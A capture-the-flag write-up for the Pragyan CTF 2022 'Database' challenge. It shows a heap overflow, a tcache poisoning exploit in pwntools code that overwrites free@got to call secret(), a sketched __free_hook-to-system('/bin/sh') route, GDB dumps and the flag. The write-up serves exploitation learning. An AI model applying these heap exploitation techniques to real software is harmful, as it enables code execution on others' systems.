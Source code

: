 # Pragyan CTF 2022 - Database

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [database.zip](database.zip)

There will be 3 files in zip:
- database
- ld-2.27.so
- libc-2.27.so

Download and extract, then use `pwninit` to patch file. After done, we start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file database
database: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=ea160318b25c1dc13c8efa64734a4ee03f502630, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all defences:

```
$ checksec database
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that just `RELRO` is off, so we can overwrite anything we want to any @got. Finally, let's use ghidra to decompile the file.

There are several file but we notice there is a function called `secret`. The `secret` function will give us flag when we execute it:

![secret.png](images/secret.png)

At first, I didn't check it deeper so I attacked unsorted bin and then abuse tcache link list to get the flag. You can read the exploit code [here](solve_1.py)

Back to main(), we can see that there are 4 functions called `print_items`, `insert_item`, `update_item` and `delete_item`. The first function `print_items` will check if the `len`, a global variable, is equal to 0 or not. If not, print out the number of bytes in that chunk with the size saved in `database` too.

The second function is `insert_item` which just simply take the length, then malloc with that length ask us to input data to chunk and save the size also the pointer to `database`.

The third function is `update_item` which will ask us to input new length for chunk without free the old chunk and malloc new chunk --> **Heap Overflow**

The last function is `delete_item` which will free() the chunk and remove the size also the pointer to chunk in `database` so we don't have use after free bug here.

That's all we can find. Let's move on the next part: Brainstorming!

# 2. Brainstorming

### Way 1

With the first solve, I first create a large chunk and free it, that chunk will go to unsorted bin and contain libc main arena address. I just use `show_items` and get that address, then calculate the libc base address. 

Then I create 2 small chunk and free all of them. I abused tcache link list by overwriting the forward pointer into `__free_hook` and then malloc again with the same size. With the second malloc, I write the address of system libc to `__free_hook` so when we free a chunk contain string `/bin/sh` will execute system("/bin/sh")

### Way 2

With this way, I was making writeup while thinking about the exploitation. We will first create 2 small chunk and free them, then abuse tcache link list by overwriting forward pointer with some free@got.

Next, we malloc 2 chunk with the same size and with the second malloc, we now control that free@got. Just simply write the address of secret() function to the free@got and we will get flag when we run free() again.

- Summary:
  1. Attack tcache

# 3. Exploit

Before we start, I wrote these functions for convinient exploit:

<details>
<summary>Code snippet</summary>
<p>

```
def insert(length, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'length of string => ', '{}'.format(length).encode())
    p.sendafter(b'string you want to save => ', data)

def update(index, length, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'index of element => ', '{}'.format(index).encode())
    p.sendlineafter(b'length of string => ', '{}'.format(length).encode())
    p.sendafter(b'string => ', data)

def remove(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', '{}'.format(index).encode())

def show():
    p.sendlineafter(b'choice => ', b'1')
```

</p>
</details>

And now, let's start!

### Attack tcache

First, we will malloc 4 small chunk:

```
insert(0x10, b'0'*0x10)    # Control the chunk below
insert(0x10, b'1'*0x10)    # Remove second
insert(0x10, b'2'*0x10)    # Remove first
insert(0x10, b'3'*0x10)    # Avoid heap consolidation
```

Then just simply free chunk index 2 and 1:

```
remove(2)
remove(1)
```

Check in GDB and we can see that 2 chunk goes into tcache:

![tcache_check.png](images/tcache_check.png)

Let's look how these 2 chunks look like:

```
gef➤  x/20xg 0x000055dc28dcf250
0x55dc28dcf250:    0x0000000000000000    0x0000000000000021    <-- Chunk index 0
0x55dc28dcf260:    0x3030303030303030    0x3030303030303030
0x55dc28dcf270:    0x0000000000000000    0x0000000000000021    <-- Chunk index 1
0x55dc28dcf280:    0x000055dc28dcf2a0    0x000055dc28dcf010
0x55dc28dcf290:    0x0000000000000000    0x0000000000000021    <-- Chunk index 2
0x55dc28dcf2a0:    0x0000000000000000    0x000055dc28dcf010
0x55dc28dcf2b0:    0x0000000000000000    0x0000000000000021    <-- Chunk index 3
0x55dc28dcf2c0:    0x3333333333333333    0x3333333333333333
0x55dc28dcf2d0:    0x0000000000000000    0x0000000000020d31
0x55dc28dcf2e0:    0x0000000000000000    0x0000000000000000
```

We can see the forward pointer in the chunk index 1. Now just `update_item` for chunk index 0 to a bigger size to change that forward pointer into address of free@got:

```
payload = b'0'*0x10
payload += p64(0)
payload += p64(0x21)
payload += p64(exe.got['free'])
update(0, 0x50, payload)
```

And then we just malloc 2 chunk with the same size 0x10:

```
insert(0x10, b'1'*0x10)
insert(0x10, b'2'*0x10)
```

Running script and we check the `database` to get the new chunk address (Address changed):

```
gef➤  x/10xg &data_base
0x56132f201d80 <data_base>:       0x0000000000000050    0x00005613303dd260
0x56132f201d90 <data_base+16>:    0x0000000000000010    0x00005613303dd280
0x56132f201da0 <data_base+32>:    0x0000000000000010    0x000056132f201cc8
0x56132f201db0 <data_base+48>:    0x0000000000000010    0x00005613303dd2c0
0x56132f201dc0 <data_base+64>:    0x0000000000000000    0x0000000000000000

gef➤  x/xg 0x000056132f201cc8
0x56132f201cc8 <free@got.plt>:	0x3232323232323232
```

So the new chunk address is still remain as the previous one except the chunk index 2 `0x000056132f201cc8`, it's the address of free@got. So for the second insert() of the code above, we will change data to the address of secret(). The code above change as follows:

```
insert(0x10, b'1'*0x10)
insert(0x10, p64(exe.sym['secret']))
```

After we successfully change free@got, just simply run free() and we will get the flag:

```
remove(0)
```

Full code 1: [solve_1.py](solve_1.py)
Full code 2: [solve_2.py](solve_2.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{Ch4Ng3_1T_t0_M4x1Mum}`